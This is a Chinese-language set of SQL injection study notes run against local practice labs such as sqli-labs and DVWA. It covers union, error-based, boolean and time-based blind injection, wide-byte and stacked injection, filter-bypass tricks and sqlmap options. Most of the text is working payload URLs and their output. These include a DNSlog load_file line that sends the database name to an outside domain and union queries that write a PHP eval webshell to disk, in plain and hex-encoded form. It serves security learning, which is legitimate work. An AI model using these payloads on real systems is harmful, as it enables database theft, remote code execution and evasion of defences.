# 03SQL注入

## 基础知识介绍

### 漏洞原理

核心原因：危险函数 + 用户可控的变量

动态页面有时会通过脚本引擎将用户输入的参数按照预先设定的规则构造成SQL语句来进行数据库操作，SQL注入攻击指的是通过构建特殊的输入作为参数传入Web应用程序，改变原有的SQL语句的语义来执行攻击者所要的操作，其主要原因是程序没有采用必要的措施避免用户输入内容改变原有SQL语句的语义。

攻击者通过浏览器或者其他的客户端，将恶意的sql语句插入到网站的参数中去。网站没有对输入的参数进行严格的校验，最后会将参数带入到后端的数据库当中进行执行。从而使攻击者通过数据库获取敏感信息或者执行其他恶意操作。 

### 危害

获取敏感数据

绕过登入验证(万能密码)

网站挂马

执行命令

文件操作

### 分类

按注入点分类：GET、POST、Cookie等数据包相关字段

按变量类型：字符型、数字型

```sql
select * from users where id=$id
select * from users where id='$id'

select * from users where id=1				# 数字型
select * from users where id='1'			# 字符型
select * from users where id="1"			# 字符型
select * from users where id=(1)			# 括号型

# 数字型判断
select * from users where id=1
select * from users where id=1 and 1=1		# 为真
select * from users where id=1 and 1=2		# 异常，判断为数字型
select * from users where id=1/1		# 为真
select * from users where id=1/0		# 异常，判断为数字型


# 字符型判断
select * from users where id='1'
select * from users where id='1 and 1=1'	# 正常执行
select * from users where id='1 and 1=2'	# 正常执行(无法判断)
select * from users where id='1' and '1'='1'		# 为真
select * from users where id='1' and '1'='2'		# 异常，判断为字符型
select * from users where id='1' and 1='1'		# 为真
select * from users where id='1' and 1='2'		# 异常，判断为字符型
select * from users where id='1' and 1=1 #'			# 为真
select * from users where id='1' and 1=2 #'			# 异常，判断为字符型
```

按拿去数据方式（四大注入）

```sql
# 回显注入
select * from users where id='-1' union select 1,2,3
# 报错注入
select * from users where id='1' and updatexml(1,0x7e,1)
# 布尔盲注
select * from users where user_id='1' and length(database())>1 #'
# 时间盲注
select * from users where id='1' and sleep(3)
```

### MYSQL常用表

从MySQL 5开始，MySQL自带information_schema数据库，它提供了访问数据库元数据的方式。

columns、tables、schemata

跨库查询

```sql
information_schema
     |_schemata      # 所有数据库
         |_schema_name       # 数据库名
     |_tables        # 所有表名
         |_table_schema      # 表所属数据库名
         |_table_name        # 表名
     |_columns       # 所有字段信息
         |_table_schema      # 字段所属数据库名
         |_table_name        # 字段所属表名
         |_column_name       # 字段名
```

### 数据库操作

#### 命令行操作

```
F:\phpstudy_pro\Extensions\MySQL5.7.26\bin>mysql.exe -uroot -p
F:\phpstudy_pro\Extensions\MySQL5.7.26\bin>mysql.exe -uroot -proot < xxxxxx.sql
mysql> show databases;
mysql> create database xxxxxx;
mysql> drop database xxxxxx;
mysql> use xxxxxx;
mysql> show tables;
mysql> select * from users;
mysql> select * from users where user='admin';
```

#### Navicat16操作数据库

D:\Navicat_Premium_16\navicat.exe

#### phpmyadmin

http://127.0.0.1/phpMyAdmin4.8.5

#### adminer.php

http://127.0.0.1/adminer.php?username=root&db=dvwa

#### SQL Front5.3操作数据库

F:\phpstudy_pro\Extensions\SQL_Front5.3\SQL-Front.exe

## 回显注入

### 函数说明

union 函数

```sql
select * from users where id=1 union select 1,2,3

字段数要一致		字符编码(排序规则)要一致
```

order by 函数

```sql
# 配合二分法使用

select * from users where id=1 order by 3	# 正常
select * from users where id=1 order by 4	# 报错，说明有3列
```

group_concat 函数

```sql
# 聚合函数
select * from users where id='-1' union select 1,group_concat(schema_name),3 from information_schema.schemata -- '
```

limit 函数

```sql
select * from users limit 0,1
select * from users limit 1,1
select * from users limit 2,4
```

### 找注入点

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=1
http://127.0.0.1/sqli-labs-master/Less-1/?id=1'		# 报错，说明页面有可能存在sql注入
```

### 判断注入类型

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=1/1
http://127.0.0.1/sqli-labs-master/Less-1/?id=1/0		# 字符


http://127.0.0.1/sqli-labs-master/Less-1/?id=1' --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' -- -
```

### 判断字段数量

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 3 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 4 --+		# 报错，判断为3个字段
```

### 联合查询

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' union select 1,1,1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,1,1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,3 --+

# 抑制正常页面的方法
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,3 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=12345678' union select 1,2,3 -- 
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=2 union select 1,2,3 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 0 union select 1,2,3 -- 
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1<>1 union select 1,2,3 -- 
```

### 查询数据库名

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,database(),version() --+
数据：security


http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,schema_name,3 from information_schema.schemata --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,schema_name,3 from information_schema.schemata limit 1,1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata --+
```

### 查询数据表名

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
数据：emails,referers,uagents,users


# 其他手法
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+
```

### 查询字段名

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' --+
数据：id,username,password
```

### 查询数据

```sql
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(id,'---',username,'---',password),3 from security.users --+
数据：
1---Dumb---Dumb,
2---Angelina---I-kill-you,
3---Dummy---p@ssword,
4---secure---crappy,
5---stupid---stupidity,
6---superman---genious,
7---batman---mob!le,
8---admin---admin,
9---admin1---admin1,
10---admin2---admin2,
11---admin3---admin3,
12---dhakkan---dumbo,
14---admin4---admin4

# 其他手法
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(id,username,password),3 from users --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(id,0x7e,username,0x7e,password),3 from users --+
```

### POST注入

```sql
# bp数据包
id=1 union select 1,2 &Submit=Submit

# hackbar
id=-1 union select 1,database() &Submit=Submit
id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()) &Submit=Submit
```

## 报错注入

如果WEB应用把SQL注入的报错信息返回到客户端，那么可以通过构造特殊的错误语句并通过返回的错误信息盗取数据。



### xpath报错

xml文档当中去提取、标记数据【32字符】

updatexml()

```sql
updatexml(xml_document,xpath,new_value)
updatexml(1,0x7e,1)
select * from users where id='1' and updatexml(1,0x7e,1)
```

extractvalue()

```sql
extractvalue(xml_document,xpath)
extractvalue(1,0x7e)
select * from users where id='1' and extractvalue(1,0x7e)
```

exp()报错

floor()报错

### 函数说明

concat()

```sql
select concat(1,2,3,4,5,6,7)
concat(0x7e,database(),0x5e)
```

mid()/substr()/substring()

```sql
select mid(database(),1,1)
select substr(database(),1,3)
select substring(database(),2,4)
select mid(database(),5,6)
```

### 测试语句

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,0x7e,1)
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and extractvalue(1,0x7e)

select * from users where id='1' and updatexml(1,0x7e,1)
select * from users where id='1' and updatexml(1,0x5e,1)
select * from users where id='1' and updatexml(1,0x21,1)
select * from users where id='1' and updatexml(1,0x22,1)
select * from users where id='1' and updatexml(1,0x23,1)
select * from users where id='1' and updatexml(1,0x25,1)
select * from users where id='1' and updatexml(1,0x26,1)
```

### 判断注入点注入类型

```sql
# 字符型
select * from users where id='1' and updatexml(1,0x7e,1) #'

# 数字型
select * from users where id=1 and updatexml(1,0x7e,1)
```

### 查询数据库

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,database(),0x5e),1)
--->数据：~security^

select * from users where id=1 and updatexml(1,concat(0x7e,database(),0x5e),1)
select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x5e),1)
```

### 查询数据表名

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5e),1)
--->数据：~emails,referers,uagents,users^

select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5e),1)
```

### 查询字段名

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5e),1)
--->数据：~id,username,password^

select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5e),1)
select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(hex(column_name)) from information_schema.columns where table_schema=database() and table_name=0x7573657273),0x5e),1)
```

### 查询数据

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,mid((select group_concat(id,'---',username,'---',password) from security.users),1,31),0x5e),1)
~1---Dumb---Dumb,2---Angelina---
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,mid((select group_concat(id,'---',username,'---',password) from security.users),32,31),0x5e),1)
~I-kill-you,3---Dummy---p@ssword
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,mid((select group_concat(id,'---',username,'---',password) from security.users),63,31),0x5e),1)
~,4---secure---crappy,5---stupid
…………
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and updatexml(1,concat(0x7e,mid((select group_concat(id,'---',username,'---',password) from security.users),250,31),0x5e),1)
~,14---admin4---admin4^


select * from users where id=1 and updatexml(1,concat(0x7e,(select group_concat(id,'---',username,'---',password) from security.users),0x5e),1)
```

## 布尔盲注

在页面当中仅仅只返回真true、假false

### 函数说明

length()

```sql
select length(database())
```

ord()、ascii()

```sql
select ord(mid(database(),2,1))
select ascii(mid(database(),3,1))
```

char()

```sql
select char(110)
```

count()

```sql
select count(schema_name) from information_schema.schemata
```

left()、right()

```sql
select left(database(),2)
select right(database(),3)
```

lower()

```sql
select lower('ADWAnuwaduADNAOIWd')
```

### 判断注入点注入类型

```sql
?id=1/1&Submit=Submit#
?id=1/0&Submit=Submit#

?id=1'#&Submit=Submit#
```

### 判断当前数据库名长度

```sql
select length(database())
select * from users where user_id='1' and length(database())>1 #'
select * from users where user_id='1' and length(database())>4 #'
select * from users where user_id='1' and length(database())=4 #'		# 判断出当前数据库名长度伪4个字符

1' and length(database())=4 #
```

### 判断当前数据库名称

```sql
select database()
select mid(database(),1,1)
select ord(mid(database(),1,1))=100
select ord(mid(database(),2,1))=118


1' and ord(mid(database(),2,1))=118 #			# 判断出当前数据库名第二个字符为v
```

### 判断表个数

```sql
select table_name from information_schema.tables where table_schema=database()
select table_name from information_schema.tables where table_schema=database() limit 0,1
select count(table_name) from information_schema.tables where table_schema=database()


select * from users where user_id='1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 #'		# 判断出dvwa数据库下有2张表
```

### 判断表长度

```sql
select table_name from information_schema.tables where table_schema=database()
select table_name from information_schema.tables where table_schema=database() limit 0,1
select group_concat(table_name) from information_schema.tables where table_schema=database()
select length(group_concat(table_name)) from information_schema.tables where table_schema=database()


select * from users where user_id='1' and (select length(group_concat(table_name)) from information_schema.tables where table_schema=database())=15 #'		# 判断出dvwa数据库的表下一共有15个字符（第一张表字符长度xx，第二张表字符长度xx，）
```

### 判断数据表

```sql
select table_name from information_schema.tables where table_schema=database()
select table_name from information_schema.tables where table_schema=database() limit 1,1
select mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1)
select ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))
select ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=117


select * from users where user_id='1' and (select ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=117) #'		# 判断出dvwa数据库的第二张表的第一个字符为u
```

### 判断字段个数

```sql
select * from users where user_id='1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8 #'		# 判断出dvwa数据库下的users有8个字段信息
```

### 判断字段长度

```sql
select * from users where user_id='1' and (select length(group_concat(column_name)) from information_schema.columns where table_schema=database() and table_name='users')=73 #'		# 判断出dvwa数据库下的users表当中的8个字段一共有73个字符（第一个字段字符长度xx，第二个字段字符长度xx，…………）
select * from users where user_id='1' and (select length(column_name) from information_schema.columns where table_schema=database() and table_name='users' limit 0,1)=7 #'
select * from users
```

### 判断字段

```sql
select * from users where user_id='1' and (select ascii(mid((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 3,1),2,1))=115) #'		# 判断出dvwa数据库的users当中的第4个字段的第二个字符为s
```

### 判断数据

```sql
select * from users
select user from users limit 0,1
select mid((select user from users limit 0,1),3,1)
select ord(mid((select user from users limit 0,1),3,1))
select ord(mid((select user from users limit 0,1),3,1))>96
select ord(mid((select user from users limit 0,1),3,1))=109
```

### burpsuite(爆破)进行布尔盲注

案例：通过BP的Intruder模块爆破数据库中的第二张表名

1、手注代码

```sql
select * from users where user_id='1' and (select ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=117) #'
```

2、变量参数设置



3、设置payload



4、结果



## 时间盲注

### 原理

页面无论输入什么内容均只有一种显示。

### 函数说明

sleep()

```sql
select sleep(4)
```

if(a,b,c)	a:条件	b:条件为真	c:条件为假

```sql
select if((select ascii(substring('security',2,1))=101),1,sleep(3))
```

### 判断注入点注入类型

```sql
http://127.0.0.1/sqli-labs-master/Less-9/?id=1

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and sleep(10) -- -
```

### 判断当前数据库名长度

```sql
select database()
select length(database())
select length(database())=8
select if((select length(database())=8),1,sleep(3))

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select length(database())=8),1,sleep(3)) -- -
```

### 判断当前数据库名称

```sql
select if((select ord(mid(database(),1,1))=115),1,sleep(3))

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select ord(mid(database(),1,1))=115),1,sleep(3)) -- -
```

### 判断表个数

```sql
select table_name from information_schema.tables where table_schema=database()
select count(table_name) from information_schema.tables where table_schema=database()
select (select count(table_name) from information_schema.tables where table_schema=database())=4
select if((select (select count(table_name) from information_schema.tables where table_schema=database())=4),sleep(3),1)

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select (select count(table_name) from information_schema.tables where table_schema=database())=4),sleep(3),1) -- -
```

### 判断表长度

```sql
select if((select (select length(table_name) from information_schema.tables where table_schema=database() limit 3,1)=5),sleep(3),1)

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select (select length(table_name) from information_schema.tables where table_schema=database() limit 3,1)=5),sleep(3),1) -- -
```

### 判断数据表

```sql
select table_name from information_schema.tables where table_schema=database()
select table_name from information_schema.tables where table_schema=database() limit 3,1
select substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1)
select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))
select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))=101
select if((select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))=101),1,sleep(3))

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))=101),1,sleep(3)) -- -
```

### 判断字段的个数

```sql
select '1' and if((select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')=8,1,sleep(5)) # 
```

### 判断字段的长度

```sql
select '1' and if((select length((select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1))=7),1,sleep(5)) #
select '1' and if((select length((select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 1,1))=10),1,sleep(5)) #
select '1' and if((select length((select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name=0x7573657273))=73),1,sleep(5)) #
select '1' and if((select length((select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'))=73),1,sleep(5)) #


7+10+9+4+8+6+10+12	每个字段长度
66+7				加上逗号长度
73
```

### 判断字段名称

```sql
select '1' and if((ord(substr((select table_name from information_schema.columns where
table_schema='dvwa' and table_name='users' limit 0,1),1,1))<96),sleep(5),1) #

1' and if(left((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),1)='u',sleep(5),1) #		获取字段名
```

### 判断数据

```sql
select '1' and if((ord(substr((select user from dvwa.users limit 0,1),1,1))>96),sleep(3),1) #

1' and if(left((select user from users limit 0,1),1)='a',sleep(5),1) #		获取数据
1' and if(left((select user from users limit 0,1),2)='ad',sleep(5),1) #
```

## 其他类型注入

### 宽字节注入

由于不同的字符编码所导致的。

GBK编码（页面 + 数据库）如果前面的ascii码大于128，mysql就会将两个字符视为一个汉字。

一个汉字占两个字节（首字节-尾字节）

```
%df
addslashes
'    \'
\   %5C
'   %27
1'	 1\'
1%df'   1%df%5c'   
%df%5c   縗
%df%5c%27   縗'
```

129  0x81   %81

### 文件读写注入（含dnslog注入）

>   secure_file_priv=		一定要为空

①dnslog注入

```sql
# 盲注优选
http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and load_file(concat('\\\\',(select database()),'.ajeptxigtq.zaza.eu.org\\sql')) --+
```



②文件读写

```sql
http://127.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1,load_file('c:\\windows\\win.ini'),3
http://xxxxxx:32940/Less-2/?id=-1 union select 1,load_file('c:\\windows\\win.ini'),3
```



③into outfile

```sql
# 利用union注入写入一句话木马 into outfile 和 into dumpfile 都可以
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,'\<?php @eval($_POST[123]);?\>' into outfile 'E://Users//Desktop//1.php' --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,load_file('E://Users//Desktop//1.php') --+

# 可以将一句话木马转换成16进制的形式
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,0x3c3f70687020406576616c28245f504f53545b3132335d293b3f3e into outfile 'E://Users//Desktop//2.php' --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=-1' union select 1,2,0x3c3f70687020406576616c28245f504f53545b3132335d293b3f3e into dumpfile 'E://Users//Desktop//2.php' --+
```

### 万能密码

```sql
select * from users where username='admin' and password='admin'
select * from users where username='admin'or'1' and password='admin'or'1'
select * from users where username='admin'or'1'#' and password='admin'or'1'
```

### 二次注入

利用门槛很高

第一步：输入恶意数据。

第二步：调用恶意数据。

```
1'#
1\'#
进到数据库后又变成了1'#
利用1'#进行注入
```

less-24

### 堆叠注入

可以同时去执行多条sql语句。分号间隔

```sql
select * from users where id=1;select 1,2,3,4,5,6,7;select database();select if(a,b,c)
```

### insert、update、delete注入

pikachu靶场

### 数据包参数注入

get post  cookie   header host  xff  referer  ua 等

略

### base64注入

略

### sqlserver注入

略

### oracl注入

略

### access(偏移注入)

略


## 常见sql注入绕过方法

### 大小写

```sql
SEleCT * fROm users wHEre id=1
Or
and
wHEre
```

### 双写

滞空/替换

```sql
sEselectleCt   --替空select后-->  sEleCt
anandd
uniUNionon
```

### 编码绕过

hex()编码

```
select hex(group_concat(column_name)) from information_schema.columns where table_schema=database() and table_name=0x7573657273 
```

url()  --> 双重url编码

unicode编码

bin()

### 空格绕过

1、url编码   空格、换行符、制表符

```sql
http://127.0.0.1/DVWA-master/vulnerabilities/sqli/?id=1%27%09order%09by%092%09--+&Submit=Submit#
```

2、注释符

```sql
/**/

select/**/hex(group_concat(column_name))/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name=0x7573657273/**/
```

3、内敛注释

```sql
/*!*/		/*!1234567*/

/*!00000select*/*/*!from*/users/*!where*/id=1
select version()
/*!50726select*/*/*!from*/users/*!where*/id=1
/*!50727select*/*/*!from*/users/*!where*/id=1
/*!50725select*/*/*!from*/users/*!where*/id=1
```

4、特殊字符

```sql
+   请求包

()><''""=`		特殊符号前后是可以省略空格
select * from(users)where `id`=1
```

### 等号绕过

```sql
select * from users where id=1
select * from users where id<>1
select * from users where !(id<>1)
select * from users where id between 1 and 1
select * from users where id between 1 and 5
select * from users where username like 'admin'
select * from users where username like 'admin%'
select * from users where username like 'a_m_n_'
select * from users where username regexp 'admin'
select * from users where username rlike 'admin'
select * from users where username regexp '^admin'
select * from users where username regexp 'admin$'
```

### 大小于号

```sql
select least(2,4)
select GREATEST(2,4)

select least(ord(mid(database(),1,1)),115)=115
```

### 逻辑符号

```sql
select * from users where username='admin' and password='admin'
select * from users where username='admin' && password='admin'
select * from users where username='admn' or password='admin'
select * from users where username='admn' || password='admin'
select * from users where username='admn' xor password='admin'
not  !
```

### 逗号绕过

```sql
select mid(database() from 2 for 1)
select * from users where id =1 union select * from (select 1)a1 join(select 2)a2 join(select 3)a3
```

### 注释符

注释符闭合

```sql
#   		可url编码%23
-- -
/**/
```

手动闭合

```sql
select * from users where username='1' or '1' and password='1' or '1'
username=1' or '1
```

### 函数替换

```
# 字符串截取
mid()/substr()/substring()
left()/right()

ord()/ascii()/char()

group_concat()/concat()/concat_ws()/limit

sleep()/select BENCHMARK(10000000,database())
```

## 工具注入

### 介绍

SQLMAP是一个开放源码的渗透测试工具，它可以自动探测和利用SQL注入漏洞来接管数据库服务器。它配备了一个强大的探测引擎，为最终渗透测试人员提供很多强大的功能，可以拖库，可以访问底层的文件系统，还可以通过带外连接执行操作系统上的命令。

### 常用参数

```sql
--version                         #显示程序的版本号并退出
-h, --help                        #显示此帮助消息并退出
-u                                #设置目标URL
-p                                #指定测试参数
-D                                #指定要进行枚举的数据库名
-U                                #指定要进行枚举的数据库表
-T                                #枚举列的信息
-C                                #指定要进行枚举的数据库列
-U                                #指定要进行枚举的数据车用户
--current-user                    #获取当前用户名称
--current-db                      #获取当前数据库名称
--cookie                          #设置cookie值
--dbs                             #列出数据库
--tables                          #列出数据库中的表
--columns                         #列出表中的列
--dump                            #列出表中的字段
--sql-shell                       #执行SQL命令
--os-cmd                          #执行系统命令
--os-shell                        #与系统交互shell
-r                                #加载外部请求包
--batch                           #使用默认参数进行
--data=DATA                       #通过POST发送数据字符串
--level=LEVEL                     #执行测试的等级（1-5，默认为1)
--risk=RISK                       #执行测试的风险（O-3，默认为1)
-v VERBOSE                        #详细级别:0-6(默认为1)
--proxy=PROXY                     #使用HTTP代理连接到目标URL
--user-agent                      #指定HTTP User-Agent
--tamper=TAMPER                   #使用给定的脚本(S)篡改注入数据 
--random-agent                    #随机的请求头!
```

### 基础使用

```sql
1、判断注入点和数据类型：
      (1) sqlmap -u http://www.test.php?id=1                 #GET方法注入
      (2) sqlmap -r /etc/url.txt                             #POST方法注入(使用Burpsuite等代理工具拦截POST请求内容，将POST请求内容保存在一个文本文件中，此处为url.txt，并用sqlmap调用)
2、判断数据库名(dbs)：sqlmap -u "http://www.test.php?id=1" --dbs
3、判断表名(tables)：sqlmap -u "http://www.test.php?id=1" -D 数据库名 --tables
